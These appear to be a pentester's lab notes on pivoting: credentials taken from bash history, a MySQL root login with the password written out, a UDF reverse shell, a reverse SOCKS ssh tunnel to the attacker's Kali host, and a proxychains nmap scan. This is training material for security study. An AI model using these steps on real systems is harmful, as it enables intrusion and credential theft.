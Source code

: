 1. MySQL root and password was retrieved from `~/.bash_history` root from Ajla
2. Use mysql root credentials to connect to mysql server
   
``` 
mysql -u root -pBmDu9xUHKe3fZi3Z7RdMBeb --host=127.0.0.1 --port=13306
```
   
3. Use User Defined Functions ([[udf]]) exploit to establish a reverse shell
> [!info] 
> Using our reverse shell, we checked on [[mounted-shares]] using `cat /etc/fstab`, and we found out that a share is mounted from the `10.5.5.20` host.
> 
>  Also, a powershell script [[system_report.ps1]] was found inside `/mnt/Scripts` containing credentials of a domain user named `alex`
   
4. Generate key-pair and add public key to Kali
5. Set up a dynamic port forward (SOCKS) from Zora to Kali using port 1080
   
```
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa kali@KALI_IP
```

> [!info] 
> `kali@kali:~$ proxychains nmap --top-ports=20 -sT -Pn 10.5.5.20`  shows that port 3389 (RDP) is open.

